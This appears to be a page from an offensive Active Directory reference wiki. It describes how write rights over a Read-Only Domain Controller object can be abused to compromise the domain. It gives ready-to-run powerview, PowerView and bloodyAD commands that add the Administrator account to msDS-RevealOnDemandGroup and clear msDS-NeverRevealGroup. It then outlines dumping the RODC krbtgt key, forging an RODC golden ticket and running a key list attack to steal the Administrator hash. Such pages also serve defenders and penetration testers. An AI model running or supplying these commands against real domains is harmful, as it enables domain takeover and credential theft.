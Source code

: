 ```yaml
---
authors: CravateRouge, ShutdownRepo
---
```


# Rights on RODC object

With administrative control over the [RODC](../builtins/rodc.md) computer object in the Active Directory, there is a path to fully compromise the domain. It is possible to modify the RODC’s `msDS-NeverRevealGroup` and `msDS-RevealOnDemandGroup` attributes to allow a Domain Admin to authenticate and dump his credentials via administrative access over the RODC host.

> [!TIP]
> For more granularity, one of these ACEs against the RODC object is initially sufficient, since they will implicitly allow `WriteProperty` against the `msDS-RevealOnDemandGroup` and `msDS-NeverRevealGroup` attributes:
> 
> * `GenericWrite`
> * `GenericAll` / `FullControl`
> * `WriteDacl` (the attacker can modify the DACL and obtain arbitrary permissions)
> * `Owns` (c.f. `WriteDacl`)
> * `WriteOwner` (i.e. the attacker can obtain `Owns` -> `WriteDacl` -> other permissions)
> * `WriteProperty` against the `msDS-RevealOnDemandGroup`attribute in conjunction with another primitive to gain privileged access to the host. `WriteProperty` against the `msDS-NeverRevealGroup` attribute may be required if it includes the target account.

::: tabs

=== UNIX-like

From UNIX-like systems, this [PowerView python package](https://github.com/aniqfakhrul/powerview.py) (Python) can be used to modify the LDAP attribute.


```bash
powerview "$DOMAIN"/"$USER":"$PASSWORD"@"RODC_FQDN"
```
```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
#Then, append the Allowed RODC Password Replication Group group
Set-DomainObject -Identity RODC-server$ -Set msDS-RevealOnDemandGroup='CN=Administrator,CN=Users,DC=domain,DC=local'
Set-DomainObject -Identity RODC-server$ -Append msDS-RevealOnDemandGroup='CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-server$ -Clear msDS-NeverRevealGroup

```


Alternatively, it can be achieved using [bloodyAD](https://github.com/CravateRouge/bloodyAD)

```bash
# Get original msDS-RevealOnDemandGroup values 
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" get object 'RODC-server$' --attr msDS-RevealOnDemandGroup
distinguishedName: CN=RODC,CN=Computers,DC=domain,DC=local
msDS-RevealOnDemandGroup: CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local

# Add the previous value plus the admin account
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-RevealOnDemandGroup -v 'CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local' -v 'CN=Administrator,CN=Users,DC=domain,DC=local'

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
bloodyAD --host "$DC_IP" -d "$DOMAIN" -u "$USER" -p "$PASSWORD" set object 'RODC-server$' --attr msDS-NeverRevealGroup
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


=== Windows

From Windows systems, [PowerView](https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/PowerView.ps1) (PowerShell) can be used for this purpose.

```powershell
#First, add a domain admin account to the msDS-RevealOnDemandGroup attribute
Set-DomainObject -Identity RODC-Server$ -Set @{'msDS-RevealOnDemandGroup'=@('CN=Allowed RODC Password Replication Group,CN=Users,DC=domain,DC=local', 'CN=Administrator,CN=Users,DC=domain,DC=local')}

#If needed, remove the admin from the msDS-NeverRevealGroup attribute
Set-DomainObject -Identity RODC-Server$ -Clear 'msDS-NeverRevealGroup'
```

Then, dump the `krbtgt_XXXXX` key on the RODC server with admin access on the host (this can be done by modifying the `managedBy` attribute for example), and use it to forge a [RODC golden ticket](../kerberos/forged-tickets/rodc-golden-tickets.md) and conduct a [key list attack](../credentials/dumping/kerberos-key-list.md) to retrieve the domain Administrator's password hash.


:::


## Resources

[https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06](https://posts.specterops.io/at-the-edge-of-tier-zero-the-curious-case-of-the-rodc-ef5f1799ca06)
